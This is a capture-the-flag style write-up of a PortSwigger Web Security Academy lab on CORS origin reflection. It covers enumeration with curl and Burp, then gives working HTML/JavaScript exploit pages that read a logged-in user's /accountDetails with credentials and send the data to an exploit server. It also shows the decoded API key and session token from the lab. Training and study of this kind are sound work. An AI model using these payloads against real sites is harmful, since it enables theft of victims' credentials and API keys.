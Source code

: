 ### CORS Vulnerability With Basic Origin Reflection Lab
#### Entities
Asset: https://0a6400570375230c80940876001500ca.web-security-academy.net

#### Enumeration
Access the lab, add the domain - without the protocol scheme - to Burp's Target scope and check `Include subdomains`. View `/` route source page and inspect the page and all embedded links via a script using the given credentials `wiener:peter`.
```shell
# inspect `/` route and embedded links via Burp's Proxy
URL="https://0a6400570375230c80940876001500ca.web-security-academy.net"
for path in $(curl -s $URL | grep -o 'href="[^"]*"' | cut -d'"' -f2); do
  echo "$(curl -skL -x 127.0.0.1:8080 -w "%{http_code} %{url_effective} -> %{redirect_url}" -o /dev/null $URL$path)"
done
```
View result on Burp Proxy's HTTP history, and with FoxyProxy Browser Extension configured for Burp turned on - not the Burp Proxy intercept - browse through the URLs that sticks out, hitting all possible resource you can find. The `/my-account` route which redirects to the `/login` when requested with valid credentials makes a POST request with an `Origin` header; `csrf`, `username` and `password` parameters and a GET request for `/accountDetails` after the login which shows sensitive credentials in the response with the `Access-Control-Allow-Credentials: true` set.  

![Enumeration](01-enumerate-index-route.png)  

#### Exploration
Armed with this insight, send the GET `/accountDetails` to Burp Repeater. Verify a CORS flaw at `/accountDetails` by removing the `Referer` header and adding an `Origin` header switching the value to an arbitrary domain and observe the response reflected the `Access-Control-Allow-Origin` value.   

![Exploration](02-explore-abitrary-domain-as-origin.png) 

#### Exploitation
Now exploit yourself while logged in with the below script.
```shell
<html lang="en">
<body>
  <script>
    function exploitCORS(appURL, exploitServer) {
      fetch(appURL, { credentials: 'include' })
      .then(response => response.text())
      .then(data => {
        fetch(exploitServer + data)
      })
      .catch(error => alert('Error fetching page: ' + error));
    }
    exploitCORS(
      'https://0a6400570375230c80940876001500ca.web-security-academy.net/accountDetails',
      'http://localhost:8000/?log='
    );
  </script>
</body>
</html>
```
Start a local server with `python3 -m http.server -b 127.0.0.1 8000 -d .` from within the directory where the above script is saved as index.html. Then run `google-chrome http://127.0.0.1:8000` and see your own credential displayed. You can also use to above script to exploit the administrator after changing the exploit server to portswigger's.

The condition for exploiting this flaw is that the target victim must be logged into their account, such that when they click the payload delivered to them, it gets the content of `/accountDetails` and logs that request to attacker's server. It is important to note that the PortSwigger lab simulates delivering the payload to the target victim and the response received at `/log` path of the exploit server. However in engagement the payload is usually set as a link in seemingly harmless articles or social media post or even emailed to them.  
```shell
<html lang="en">
<body>
  <script>
    var appServer = 'https://0a6400570375230c80940876001500ca.web-security-academy.net'
    var exploitServer = 'https://exploit-0a91002e0313235d80ad0765011300a1.exploit-server.net'
    var xhr = new XMLHttpRequest();
    xhr.open('GET', appServer + '/accountDetails', true);
    xhr.withCredentials = true;
    xhr.onreadystatechange = function() {
      if (xhr.readyState == XMLHttpRequest.DONE && xhr.status == 200) {
        fetch(exploitServer + '/log=' + xhr.responseText)
      }
    };
    xhr.send();
  </script>
</body>
</html>
```
Paste the above on the exploit server and deliver exploit to victim.  

![Exploitation](03-exploit-abitrary-domain-as-origin.png) 

#### Exfiltration
Access the exploit server log and copy the value of `/log=` path. Now run it through a url decoder to extract the apikey.  

![Exfiltration](04-exfiltrate-abitrary-domain-as-origin-spoils.png) 
```shell
urlencode -d '%7B%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22a0IydfTG1C1PHw7fgY4eoY6FcVVKvRGm%22,%20%20%22sessions%22:%20[%20%20%20%20%222fbOjlD7InD7crx0XK3djXJhrjlfZiyA%22%20%20]%7D' | jq . | tee cors-vulnerability-with-basic-origin-reflection-spoil.json
```
#### Resources
- https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack
- https://github.com/knoxknot/portswigger/01-cors-vulnerability-with-basic-origin-reflection